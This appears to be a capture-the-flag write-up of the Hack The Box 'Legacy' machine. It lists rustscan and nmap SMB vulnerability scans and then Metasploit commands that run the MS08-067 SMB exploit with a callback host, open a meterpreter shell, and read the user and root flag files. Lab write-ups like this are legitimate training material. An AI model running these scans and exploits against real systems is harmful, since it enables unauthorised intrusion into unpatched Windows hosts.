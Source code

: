 # ****Legacy****

```bash
rustscan -a 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d5a20a01-fc19-4129-b59f-8d1568842e27)


```bash
nmap -A -p 135,139,445 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ecfa94ea-8cee-4817-9c38-08353cc9988c)

```bash
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/eaecec0a-da46-4baa-9290-71ec247b74b3)

```bash
msfconsole
```
![image](https://github.com/lufffe/Writeups/assets/90646635/75399ce6-7f11-4306-a474-0ee600582817)

```bash
search ms08-067
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.14.17
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit
```

```bash
meterpreter > pwd
```

C:\Documents and Settings\John\Desktop

```bash
meterpreter > cat user.txt
```

```bash
meterpreter > pwd
```

C:\Documents and Settings\Administrator\Desktop

```bash
meterpreter > cat root.txt
```
